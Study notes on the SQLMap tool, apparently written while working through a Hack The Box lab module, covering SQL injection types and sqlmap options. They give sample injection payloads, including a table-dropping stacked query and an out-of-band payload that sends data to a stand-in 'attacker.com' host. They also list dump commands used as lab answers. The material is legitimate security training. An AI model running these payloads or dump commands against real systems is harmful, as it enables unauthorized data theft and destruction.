 # 🐡 SQLMap Essentials

[SQLMap](https://github.com/sqlmapproject/sqlmap) is a free and open-source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

We can install it the following way:

```shell-session
sudo apt install sqlmap
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

The default techniques that are used are `BEUSTQ:`

* `B`: Boolean-based blind
* `E`: Error-based
* `U`: Union query-based
* `S`: Stacked queries
* `T`: Time-based blind
* `Q`: Inline queries

***

### Different types of SQLI

#### Boolean-based blind SQL Injection

```sql
AND 1=1
```

It is exploited through the differentiation of `TRUE` from `FALSE` query results

The differentiation is based on comparing server responses to determine whether the SQL query returned `TRUE` or `FALSE`.

#### Error-based SQL Injection

```sql
AND GTID_SUBSET(@@version,0)
```

If the `database management system` (`DBMS`) errors are being returned as part of the server response for any database-related problems, then there is a probability that they can be used to carry the results for requested queries.

#### UNION query-based

```sql
UNION ALL SELECT 1,@@version,3
```

With the usage of `UNION`, it is generally possible to extend the original (`vulnerable`) query with the injected statements' results.

the attacker can get additional results from the injected statements within the page response itself.

#### Stacked queries

```sql
; DROP TABLE users
```

This works by injecting additional SQL statements after the vulnerable one. In case that there is a requirement for running non-query statements (e.g. `INSERT`, `UPDATE` or `DELETE`), stacking must be supported by the vulnerable platform (e.g., `Microsoft SQL Server` and `PostgreSQL` support it by default)

#### Time-based blind SQL Injection

```sql
AND 1=IF(2>1,SLEEP(5),0)
```

The principle of `Time-based blind SQL Injection` is similar to the `Boolean-based blind SQL Injection`, but here the response time is used as the source for the differentiation between `TRUE` or `FALSE`.

#### Inline queries

```sql
SELECT (SELECT @@version) from
```

#### Out-of-band SQL Injection

```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

This is used in cases where all other types are either unsupported by the vulnerable web application or are too slow (e.g., time-based blind SQLi).

### Getting Started

To get all options and switches&#x20;

```shell-session
sqlmap -hh
```

Basic command:

```shell-session
sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

{% hint style="info" %}
Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.
{% endhint %}

{% hint style="info" %}
#### Different messages usually found during a scan of SQLMap ->

https://academy.hackthebox.com/module/58/section/696
{% endhint %}

To set up an SQLMap request against the specific target is by utilizing `Copy as cURL`

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```shell-session
sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
```

`GET` parameters are provided with the usage of option `-u`/`--url`

`POST` data, the `--data` flag can be used

```shell-session
sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
```

If we want to use an alternative HTTP method, other than `GET` and `POST` (e.g., `PUT`), we can utilize the option `--method`

```shell-session
sqlmap -u www.target.com --data='id=1' --method PUT
```

Another way of launching sqlmap is with a burp request:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we copy and paste the request in a txt file and call it in our command:

```shell-session
sqlmap -r req.txt
```

if we have a case where we have a session cookie we need to specify it:

```shell-session
sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
sqlmap ... -H='Cookie:PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'
```

**Questions**

\#1&#x20;

```
sqlmap 'http://83.136.250.45:54294/case2.php' --data 'id=1' --batch --dump
```

\#2&#x20;

```
sqlmap 'http://83.136.250.45:54294/case3.php' --cookie='id=1*' --dump --batch
```

\#3&#x20;

```
sqlmap -r req2.txt --dump --batch
```

### Handling SQLMap Errors

`--parse-errors`, to parse the DBMS errors (if any) and displays them as part of the program run

`-t` option stores the whole traffic content to an output file

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt
```

`-v` option, to raise the verbosity level of the console output

```shell-session
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Prefix & Suffix

To go faster after manual enumeration we can use  `--prefix` and `--suffix`

```bash
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

This will result in a query like this:

```sql
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

**Questions**

**#5**&#x20;

```
sqlmap http://94.237.59.231:59227/case5.php?id=1 --risk=3 --level=5 -T flag5 --no-cast --batch --dump
```

\#6&#x20;

```
sqlmap http://94.237.59.231:59227/case6.php?col=id --random-agent --batch --dump --prefix='`)' --level=5 --risk=3
```

\#7&#x20;

```
sqlmap http://94.237.59.231:59227/case7.php?id=1 --union-cols=5 --dump --no-cast
```
